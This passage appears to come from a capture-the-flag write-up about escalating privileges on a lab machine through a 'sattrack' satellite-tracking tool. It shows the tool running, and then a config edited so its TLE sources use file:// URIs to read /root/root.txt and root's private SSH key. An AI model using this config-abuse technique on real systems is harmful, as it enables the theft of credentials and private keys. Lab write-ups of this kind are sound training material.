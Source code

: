 ### Running sattrack

I’ll copy the config file from `/usr/local/share` and give this a run:

```
jovian@jupiter:~$ cp /usr/local/share/sattrack/config.json /tmp/
jovian@jupiter:~$ sattrack
Satellite Tracking System
tleroot does not exist, creating it: /tmp/tle/
Get:0 http://celestrak.org/NORAD/elements/weather.txt
Could not resolve host: celestrak.org
Get:0 http://celestrak.org/NORAD/elements/noaa.txt
Could not resolve host: celestrak.org
Get:0 http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle
Could not resolve host: celestrak.org
Satellites loaded
No sats

```

It hangs on each source, timing out unable to resolve each host. There’s an empty file for each in the TLE directory:

```
jovian@jupiter:~$ ls -l /tmp/tle/
total 0
-rw-rw-r-- 1 jovian jovian 0 Aug 31 22:10 'gp.php?GROUP=starlink&FORMAT=tle'
-rw-rw-r-- 1 jovian jovian 0 Aug 31 22:10  noaa.txt
-rw-rw-r-- 1 jovian jovian 0 Aug 31 22:10  weather.txt

```

### File Read

One way to abuse this is to use the `file://` protocol handler. I’ll replace the fetched URIs with attempts to read `root.txt` and an private SSH key:

```
{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "file:///root/root.txt",
                "file:///root/.ssh/id_rsa"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
```